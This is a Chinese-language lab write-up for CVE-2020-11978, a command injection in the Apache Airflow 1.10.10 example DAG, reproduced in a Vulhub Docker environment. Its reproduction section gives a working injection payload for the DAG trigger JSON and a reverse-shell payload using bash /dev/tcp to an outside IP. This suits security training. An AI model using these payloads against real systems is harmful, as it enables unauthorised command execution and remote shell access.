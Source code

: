 # Apache Airflow 示例DAG中的命令注入 CVE-2020-11978

## 漏洞描述

Apache Airflow是一款开源的分布式任务调度框架，通过DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具，不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。

在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx
- https://github.com/pberba/CVE-2020-11978

## 环境搭建

Vulhub依次执行如下命令启动Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

访问`http://your-ip:8080/admin/airflow/login`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![image-20220329111338269](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251946022.png)

再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：

![image-20220329111358392](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251946023.png)

等几秒可以看到执行成功：

![image-20220329111445804](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251946024.png)

到CeleryWorker容器中进行查看：

```
docker-compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：

![image-20220329111605593](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251946025.png)

### 反弹shell

相同方法执行反弹shell：

```
{"message":"'\";bash -i >& /dev/tcp/101.42.237.61/9999 0>&1;#"}
```

![image-20220329113423239](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251946026.png)

